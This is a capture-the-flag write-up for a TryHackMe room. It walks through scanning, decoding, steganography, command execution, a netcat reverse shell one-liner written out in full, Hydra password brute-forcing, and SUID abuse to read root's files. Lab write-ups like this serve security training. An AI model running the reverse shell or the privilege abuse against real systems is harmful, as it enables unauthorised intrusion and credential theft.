 ```yaml
---
title: Jack-of-All-Trades TryHackMe Writeup
tags: [writeup,tryhackme,strings,stego,linux,crypto]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/1.jpeg)

## Scanning
We performed an nmap scan of all ports, with scripts and software versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/2.png)

## Enumeration
We tried to access the website from the browser, but it will not open.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/3.png)

But, if we try **curl** we will see the content of the site, there is a string in **base64**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/4.png)

Decode the message, you will get a password.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/5.png)

We access the file *"recovery.php "*, there we will have to decode another message, this time it will be more complicated.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/6.png)

We access the site with the hint, we see a famous *"dinosaur"*. After reading the message and the image, we already sense what we have to do.

#### Download stego.jpg image

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/7.png)

Let's try the other image... And we got credentials.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/8.png)

Searching through **Google**, we found this [tutorial](https://www.ryadel.com/en/firefox-this-address-is-restricted-override-fix-port/
) that explains how to change the port to browse **Firefox**, so we follow the guide, access the file *"recovery.php"* and use the credentials obtained.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/9.png)

## Exploitation
We make a small one and check that we can execute commands.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/9.png)

#### Reverse shell
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.30.149 443 >/tmp/f
```
We will use the above *payload + URL-Encode* to obtain a shell on the victim machine.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/10.png)

We access the *"/home/"* and find a list of passwords for the user *"Jack"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/11.png)

We use the **Hydra** tool to obtain the correct password in just seconds.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/12.png)

We access by **SSH**, we enumerate a file *"user.jpg"*. We transfer it to our machine and read the user flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/13.png)

#### Evidence user flag

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/14.png)

## Abuse of privileges
We launch the **lse.sh** tool, enumerate the uncommon SUID *strings* binary.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/15.png)

We look for information, we see that it is possible to load a variable with an arbitrary path and to be able to execute **strings** to read its content. 

First, I tried to read the file *"id_rsa"* of the root user, but it does not exist. So a quick option is to read the flag directly.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Jack-of-All-Trades/16.png)




